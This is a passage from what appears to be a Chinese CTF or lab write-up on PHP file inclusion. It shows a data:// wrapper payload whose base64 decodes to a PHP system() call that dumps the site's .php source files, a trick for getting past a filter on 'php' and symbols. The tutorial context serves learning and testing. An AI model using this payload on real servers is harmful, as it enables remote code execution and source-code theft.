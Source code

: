 <img src=".\图片\Snipaste_2023-02-03_22-07-22.png" alt="Snipaste_2023-02-03_22-07-22" style="zoom:80%;" />

**方法2：**

过滤PHP，各种符号，php代码编码写出无符号base64值

```
Payload：file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvIDEyMzs/PmFk
```

```
PD9waHAgc3lzdGVtKCd0YWMgKi5waHAnKTtlY2hvIDEyMzs/PmFk   //<?php system('tac *.php');echo 123;?>ad
```

<img src=".\图片\Snipaste_2023-02-03_22-09-27.png" alt="Snipaste_2023-02-03_22-09-27" style="zoom:80%;" />

# 文件包含截断
